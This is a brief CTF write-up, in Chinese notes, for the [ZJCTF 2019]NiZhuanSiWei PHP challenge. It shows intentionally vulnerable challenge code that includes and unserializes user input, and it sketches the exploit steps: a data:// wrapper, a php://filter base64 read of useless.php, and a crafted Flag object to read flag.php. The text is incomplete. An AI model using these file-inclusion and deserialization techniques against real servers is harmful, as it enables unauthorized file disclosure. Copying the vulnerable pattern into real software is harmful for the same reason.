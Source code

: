 # [ZJCTF 2019]NiZhuanSiWei

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

1 传一个文件 内容为条件字符串 才能继续 试过了 根本不会echo  

// php伪协议data数据流读取

// data://text/plain,xxx

2  绕过 文件包含useless.php

// php://filter/read=convert.base64-encode/resource=useless.php

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  

```

3 反序列化 

```
<?php  

class Flag{  //flag.php  
    public $file="flag.php";  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
$res = new Flag()
```
